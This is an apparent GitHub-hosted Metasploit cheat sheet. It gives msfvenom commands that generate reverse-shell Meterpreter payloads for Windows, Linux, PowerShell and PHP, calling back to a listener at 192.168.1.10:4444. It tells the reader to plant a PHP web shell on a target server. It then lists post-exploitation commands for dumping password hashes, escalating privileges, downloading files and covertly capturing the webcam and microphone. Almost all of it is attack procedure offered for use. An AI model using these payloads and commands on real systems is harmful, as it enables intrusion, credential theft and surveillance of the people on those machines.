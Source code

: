 ## 1. Payload Generation with `msfvenom`

### Basic Payload Creation
```bash
msfvenom -p <payload> LHOST=<IP> LPORT=<PORT> -f <format> > <output_file>
```
- **`-p <payload>`**: Specify the payload type (e.g., `windows/meterpreter/reverse_tcp`, `linux/x86/shell/reverse_tcp`).
- **`-f <format>`**: Output format (e.g., `exe`, `elf`, `apk`, `raw`, `psh`).
- **`LHOST`**: Your listening IP address.
- **`LPORT`**: Your listening port.

Example for Windows:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > payload.exe
```

Example for Linux:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f elf > payload.elf
```

Example for PowerShell:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f psh > payload.ps1
```

---

## 2. Converting a Reverse Shell to Meterpreter
If you already have a reverse shell, you can upgrade it to a Meterpreter session:
```bash
use post/multi/manage/shell_to_meterpreter
set SESSION <session_id>
run
```

---

## 3. Creating a Listener Payload 

```bash
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
run
```

---

## 4. Creating a PHP Payload 
Generate PHP Meterpreter payload:
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f raw > shell.php
```

Place `shell.php` on the target server. When executed via the web browser, it will connect back to your listener.

Start listener in Metasploit:
```bash
use exploit/multi/handler
set PAYLOAD php/meterpreter_reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
run
```

---

## 5. Meterpreter Commands

| Command                           | Description                        |
| --------------------------------- | ---------------------------------- |
| `sysinfo`                         | Display system information.        |
| `getuid`                          | Show current user.                 |
| `getsystem`                       | Attempt privilege escalation.      |
| `hashdump`                        | Dump password hashes.              |
| `search -f <filename>`            | Search for files.                  |
| `download <file>`                 | Download a file from the target.   |
| `upload <file>`                   | Upload a file to the target.       |
| `screenshot`                      | Take a screenshot of the target.   |
| `webcam_snap`                     | Take a snapshot from the webcam.   |
| `record_mic`                      | Record audio from the microphone.  |
| `shell`                           | Spawn a standard shell.            |
| `background`                      | Send session to background.        |
| `sessions -i <id>`                | Interact with a specific session.  |
| `post/windows/gather/enum_shares` | Enumerate shared files on Windows. |
| `post/linux/gather/hashdump`      | Dump hashes on Linux.              |

---

## 6. Metasploit Commands

| Command                        | Description                                                                    |
| ------------------------------ | ------------------------------------------------------------------------------ |
| `search <keyword>`             | Search for exploits, payloads, or auxiliary modules related to a keyword.      |
| `search type:exploit name:<x>` | Search specifically for exploits containing `<x>` in their name.               |
| `search type:payload`          | List all payloads.                                                             |
| `use <module_path>`            | Load a specific module (e.g., `use exploit/windows/smb/ms17_010_eternalblue`). |
| `info`                         | Show detailed information about the loaded module.                             |
| `show payloads`                | Show compatible payloads for the loaded module.                                |
| `show exploits`                | List available exploits.                                                       |
| `show options`                 | Show configurable options for the loaded module.                               |
| `set <option> <value>`         | Set a specific option for the module.                                          |
| `exploit`                      | Run the loaded exploit.                                                        |
| `run`                          | Alias for `exploit`.                                                           |
| `sessions`                     | List active sessions.                                                          |
| `sessions -i <id>`             | Interact with a specific session.                                              |
| `jobs`                         | List background jobs.                                                          |
| `jobs -k <id>`                 | Kill a background job.                                                         |
| `load <plugin>`                | Load a Metasploit plugin.                                                      |
